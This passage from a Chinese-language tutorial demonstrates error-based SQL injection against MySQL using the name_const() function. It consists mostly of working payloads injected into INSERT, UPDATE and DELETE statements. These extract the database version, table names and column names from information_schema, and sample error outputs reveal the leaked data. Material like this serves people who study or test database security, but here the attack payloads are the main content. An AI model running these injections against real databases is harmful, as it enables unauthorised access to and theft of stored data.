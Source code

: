 Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '','Nervo');

```

update：

```
UPDATE users SET password='Nicky' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '' WHERE id=2 and username='Nervo';

```

delete：

```
DELETE FROM users WHERE id=1 or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)or '';

```

提取数据：

在最新的MYSQL版本中，使用name_const()函数只能提取到数据库的版本信息。但是在一些比较旧的高于5.0.12(包括5.0.12)的MYSQL版本中，可以进一步提取更多数据。在这里我使用MySQL5.0.45进行演示。

首先，我们做一个简单的SELECT查询，检查我们是否可以提取数据。

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT 2),1),name_const((SELECT 2),1))a) or '', 'Nervo');

```

如果显示ERROR 1210 (HY000): Incorrect arguments to NAME_CONST，那就洗洗睡吧。。

如果显示ERROR 1060 (42S21): Duplicate column name '2'，就可以进一步获取更多数据。

![enter image description here](http://drops.javaweb.org/uploads/images/bd1ed9449977394988c8cdbcc5af100ba337670b.jpg)

获取newdb数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'users'

```

获取users表的列名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1),name_const(( SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'id'

```
